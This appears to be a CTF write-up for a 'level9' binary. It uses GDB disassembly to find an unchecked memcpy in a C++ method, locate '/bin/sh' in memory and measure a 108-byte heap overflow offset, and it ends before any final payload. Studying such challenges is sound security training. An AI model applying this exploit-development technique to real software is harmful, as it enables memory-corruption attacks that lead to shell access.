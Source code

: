 # GDB analysis

[`gdb`](https://linux.die.net/man/1/gdb) is useful for us to understand how a given binary works.

## Main function

Let's see what this program does...

```gdb
  $> gdb ./level9
  (gdb) disassemble main
  Dump of assembler code for function main:
    0x080485f4 <+0>:     push   %ebp
    0x080485f5 <+1>:     mov    %esp,%ebp
    0x080485f7 <+3>:     push   %ebx
    0x080485f8 <+4>:     and    $0xfffffff0,%esp
    0x080485fb <+7>:     sub    $0x20,%esp
    0x080485fe <+10>:    cmpl   $0x1,0x8(%ebp)
    0x08048602 <+14>:    jg     0x8048610 <main+28>
    0x08048604 <+16>:    movl   $0x1,(%esp)
    0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
    0x08048610 <+28>:    movl   $0x6c,(%esp)
    0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
    0x0804861c <+40>:    mov    %eax,%ebx
    0x0804861e <+42>:    movl   $0x5,0x4(%esp)
    0x08048626 <+50>:    mov    %ebx,(%esp)
    0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
    0x0804862e <+58>:    mov    %ebx,0x1c(%esp)
    0x08048632 <+62>:    movl   $0x6c,(%esp)
    0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
    0x0804863e <+74>:    mov    %eax,%ebx
    0x08048640 <+76>:    movl   $0x6,0x4(%esp)
    0x08048648 <+84>:    mov    %ebx,(%esp)
    0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
    0x08048650 <+92>:    mov    %ebx,0x18(%esp)
    0x08048654 <+96>:    mov    0x1c(%esp),%eax
    0x08048658 <+100>:   mov    %eax,0x14(%esp)
    0x0804865c <+104>:   mov    0x18(%esp),%eax
    0x08048660 <+108>:   mov    %eax,0x10(%esp)
    0x08048664 <+112>:   mov    0xc(%ebp),%eax 
    0x08048667 <+115>:   add    $0x4,%eax      
    0x0804866a <+118>:   mov    (%eax),%eax    
    0x0804866c <+120>:   mov    %eax,0x4(%esp) 
    0x08048670 <+124>:   mov    0x14(%esp),%eax
    0x08048674 <+128>:   mov    %eax,(%esp)
    0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
    0x0804867c <+136>:   mov    0x10(%esp),%eax
    0x08048680 <+140>:   mov    (%eax),%eax
    0x08048682 <+142>:   mov    (%eax),%edx
    0x08048684 <+144>:   mov    0x14(%esp),%eax
    0x08048688 <+148>:   mov    %eax,0x4(%esp)
    0x0804868c <+152>:   mov    0x10(%esp),%eax
    0x08048690 <+156>:   mov    %eax,(%esp)
    0x08048693 <+159>:   call   *%edx
    0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
    0x08048698 <+164>:   leave
    0x08048699 <+165>:   ret
  End of assembler dump.
```

> This `main()` calls [`exit()`](https://man7.org/linux/man-pages/man3/exit.3.html). On top of that we can see that we're dealing with a C++ program this time: some `_Znwj@plt` which are `new` keyword are invoked with a class called `_ZN1NC2Ei`, then a `_ZN1N13setAnnotationEPc` method from that class is called.

If we look inside the `_ZN1N13setAnnotationEPc` we get...

```gdb
  (gdb) disas _ZN1N13setAnnotationEPc
  Dump of assembler code for function _ZN1N13setAnnotationEPc:
    0x0804870e <+0>:     push   %ebp
    0x0804870f <+1>:     mov    %esp,%ebp
    0x08048711 <+3>:     sub    $0x18,%esp
    0x08048714 <+6>:     mov    0xc(%ebp),%eax
    0x08048717 <+9>:     mov    %eax,(%esp)
    0x0804871a <+12>:    call   0x8048520 <strlen@plt>
    0x0804871f <+17>:    mov    0x8(%ebp),%edx
    0x08048722 <+20>:    add    $0x4,%edx
    0x08048725 <+23>:    mov    %eax,0x8(%esp)
    0x08048729 <+27>:    mov    0xc(%ebp),%eax
    0x0804872c <+30>:    mov    %eax,0x4(%esp)
    0x08048730 <+34>:    mov    %edx,(%esp)
    0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
    0x08048738 <+42>:    leave
    0x08048739 <+43>:    ret
  End of assembler dump.
```

> It calls [`strlen()`](https://linux.die.net/man/3/strlen) and [`memcpy()`](https://man7.org/linux/man-pages/man3/memcpy.3.html).

Since it uses `memcpy()` we could potentially exploit this function to get a shell.

# Data

## Strings

```gdb
  (gdb) find &system, +9999999, "/bin/sh"
  0xb7ea7c58
```

The string `/bin/sh` is located at address `0xb7ea7c58` in memory.

## Buffer size

Inside the class we can see that there is a string buffer as property...

```gdb
  (gdb) disas _ZN1NC2Ei
  Dump of assembler code for function _ZN1NC2Ei:
    0x080486f6 <+0>:     push   %ebp
    0x080486f7 <+1>:     mov    %esp,%ebp
    0x080486f9 <+3>:     mov    0x8(%ebp),%eax
    0x080486fc <+6>:     movl   $0x8048848,(%eax)
    0x08048702 <+12>:    mov    0x8(%ebp),%eax
    0x08048705 <+15>:    mov    0xc(%ebp),%edx
    0x08048708 <+18>:    mov    %edx,0x68(%eax)
    0x0804870b <+21>:    pop    %ebp
    0x0804870c <+22>:    ret
  End of assembler dump.

  (gdb) print 0x68
  $1 = 104
```

This buffer is **104** bytes long.

## Buffer offset

Since the string buffer is used in the `memcpy()` we can try to get its offset.

```gdb
  (gdb) b *main+140
  Breakpoint 1 at 0x8048680
  (gdb) run $(echo -e "import string\nprint ''.join([char * 4 for char in string.ascii_letters])" | python)
  
  Breakpoint 1, 0x08048680 in main ()
  (gdb) x $eax
  0x804a078:      0x42424242
```

> The string input goes through the alphabet first in lowercase then uppercase. Since we get `0x42424242` (which is `BBBB`) in `eax` it means that end of buffer is at `AAAA`. So the offset is **108** bytes (27 * 4).
